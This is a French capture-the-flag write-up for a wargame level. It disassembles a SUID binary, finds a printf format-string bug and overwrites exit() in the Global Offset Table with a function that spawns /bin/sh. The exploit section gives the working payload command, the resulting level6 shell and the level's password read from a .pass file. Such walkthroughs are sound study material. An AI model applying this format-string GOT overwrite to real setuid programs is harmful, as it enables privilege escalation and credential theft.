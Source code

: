 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
  [...]
  ```
    - On a un binaire appartenant a level6 dans le home avec les droits SUID.

- `./level5`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level5`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  o
      0x080484c2  n
      0x08048504  main
    [...]
    ```
    - on trouve une fonction n() et une fonction o() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048504 <+0>:	push   ebp
       0x08048505 <+1>:	mov    ebp,esp
       0x08048507 <+3>:	and    esp,0xfffffff0
       0x0804850a <+6>:	call   0x80484c2 <n>
       0x0804850f <+11>:	leave
       0x08048510 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction n()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x080484c2 <+0>:	push   ebp
       0x080484c3 <+1>:	mov    ebp,esp
       0x080484c5 <+3>:	sub    esp,0x218
       0x080484cb <+9>:	mov    eax,ds:0x8049848
       0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
       0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
       0x080484dc <+26>:	lea    eax,[ebp-0x208]
       0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
       0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
       0x080484ea <+40>:	lea    eax,[ebp-0x208]
       0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
       0x080484f3 <+49>:	call   0x8048380 <printf@plt>
       0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
       0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049848 dans le data segment register
        - `x/s 0x8049848`
          - `0x8049848 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Fait pointer eax sur ebp - 520
      - Stocke eax (l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse du retour de fgets()) sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+61>
      - Stocke 0x1 (1) sur la stack
      - Call exit() avec l'argument stocké sur la stack

  - `disas o`
    ```asm
    Dump of assembler code for function o:
       0x080484a4 <+0>:	push   ebp
       0x080484a5 <+1>:	mov    ebp,esp
       0x080484a7 <+3>:	sub    esp,0x18
       0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
       0x080484b1 <+13>:	call   0x80483b0 <system@plt>
       0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
       0x080484bd <+25>:	call   0x8048390 <_exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+13>
      - Stocke la valeur de 0x80485f0 sur la stack (à esp)
        - `x/s 0x80485f0`
          ```
          0x80485f0:	 "/bin/sh"
          ```
      - Call system() avec l'argument stocké sur la stack (à esp)
    - <+17> ... <+18>
      - Réinitialisation de la mémoire, fin d'exécution
    - <+18> ... <+25>
      - Stocke 0x1 (1) sur la stack
      - Call _exit() avec l'argument stocké sur la stack

## Exploit

Ni main() ni n() n'appellent o(), dommage car il nous pop un shell.
On remarque également qu'il n'y a pas de return(), uniquement des call à exit() donc inutile de réécrire l'eip on va sortir sans y passer.
Il va falloir [remplacer l'adresse de la fonction exit() dans la Global Offset Table par l'adresse de la fonction o()](https://axcheron.github.io/exploit-101-format-strings/#code-execution-redirect) pour avoir notre shell.


- `objdump -R level5`
  ```
   OFFSET   TYPE              VALUE
  08049814 R_386_GLOB_DAT    __gmon_start__
  08049848 R_386_COPY        stdin
  08049824 R_386_JUMP_SLOT   printf
  08049828 R_386_JUMP_SLOT   _exit
  0804982c R_386_JUMP_SLOT   fgets
  08049830 R_386_JUMP_SLOT   system
  08049834 R_386_JUMP_SLOT   __gmon_start__
  08049838 R_386_JUMP_SLOT   exit
  0804983c R_386_JUMP_SLOT   __libc_start_main
  ```
  - l'adresse d'exit dans la GOT est `08049838`
- `gdb level5`
  - `info function o`
    ```
    All functions matching regular expression "o":

    Non-debugging symbols:
    0x080483c0  __gmon_start__
    0x080483c0  __gmon_start__@plt
    0x08048420  __do_global_dtors_aux
    0x080484a4  o
    0x080485a0  __do_global_ctors_aux
    ```
    - l'adresse de o() est 0x080484a4

  - `python -c 'print "AAAA" + "%x " * 10' | ./level5`
    ```
    AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520
    ```
    - On commence a lire notre format string dans la stack au 4eme argument donné à print.
  
  - `python -c 'print"\x38\x98\x04\x08 %4$p"' | ./level5"
    ```
    8 0x8049838
    ```

On va à nouveau se servir du modifier %n pour écrire l'adresse de o() dans l'adresse du exit(), pour ca on va mettre autant de padding que la représentation en int de l'adresse de o(), moins 4 octets pour l'adresse de exit():
- `python -c 'print"\x38\x98\x04\x08%1$" + str(int(0x080484a4) - 4) + "d%4$n"' > /tmp/exploit`
- `cat /tmp/exploit - | ./level5`<br/>
  <img src="https://vignette.wikia.nocookie.net/spongebob/images/f/f7/Two_hours_later.jpg/revision/latest?cb=20101111022814" style="width: 350px;"/><br/>
  ```
                                    512
                  
  ```
  - `whoami`
    ```
    level6
    ```
  - `cat /home/user/level6/.pass`
    ```
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```

